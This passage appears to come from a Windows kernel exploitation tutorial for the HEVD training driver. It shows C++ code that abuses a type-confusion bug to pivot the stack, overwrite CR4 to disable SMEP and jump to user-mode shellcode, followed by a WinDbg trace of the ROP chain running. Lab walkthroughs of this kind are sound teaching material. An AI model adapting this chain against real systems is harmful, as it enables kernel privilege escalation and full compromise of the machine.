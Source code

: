 `00010101 00000110 11111000` = `0x506f8`

Let's implement those in our code:
```cpp
...
	UINT64 StackPivotGadget = KernelBase + 0x522840;
	volatile UINT64 STACK_PIVOT = 0xE8000000;
	UINT64 PopRcx = KernelBase + 0x14f34b;
	UINT64 RcxValue = 0x506F8;
	UINT64 ModCr4 = KernelBase + 0x7274e;

	UINT64 StackAddr = STACK_PIVOT - 0x1000;

	LPVOID KernelStack = VirtualAlloc((LPVOID)StackAddr, 0x10000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (KernelStack == 0) {
		printf("\nERROR ALLOCATING THE BUFFER -> %d\n", GetLastError());
		getchar();
		return -1;
	}
	if (!VirtualLock(KernelStack, 0x10000)) {
		printf("\nERROR LOCKING THE MEMORY RANGE -> %d\n", GetLastError());
		getchar();
		return -1;
	}
	memset(KernelStack, 0x41, 0x1000);

	PVOID pShell = VirtualAlloc(nullptr, 150, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(pShell, pShellcode, 150);

	USER_TYPE_CONFUSION_OBJECT UserStruct = { 0 };
	UserStruct.ObjectID = 0x4141414141414141;
	UserStruct.ObjectType = StackPivotGadget;

	// memcpy((UINT64*)STACK_PIVOT, &DumyRbxVal, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT, &PopRcx, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT + 1, &RcxValue, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT + 2, &ModCr4, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT + 3, &pShell, sizeof(UINT64));
...
```

```WinDbg
0: kd> g
Breakpoint 1 hit
HEVD!TypeConfusionObjectInitializer+0x37:
fffff800`b528754b ff5308          call    qword ptr [rbx+8]
0: kd> t
nt!CcZeroData+0x5c:
fffff803`7639b840 bc000000e8      mov     esp,0E8000000h
0: kd> 
nt!CcZeroData+0x61:
fffff803`7639b845 c3              ret
0: kd> 
nt!KiIsrLinkage+0x16b:
fffff803`75fc834b 59              pop     rcx
0: kd> 
nt!KiIsrLinkage+0x16c:
fffff803`75fc834c c3              ret
0: kd> 
nt!KiFlushCurrentTbWorker+0x12:
fffff803`75eeb74e 0f22e1          mov     cr4,rcx
0: kd> 
nt!KiFlushCurrentTbWorker+0x15:
fffff803`75eeb751 c3              ret
```
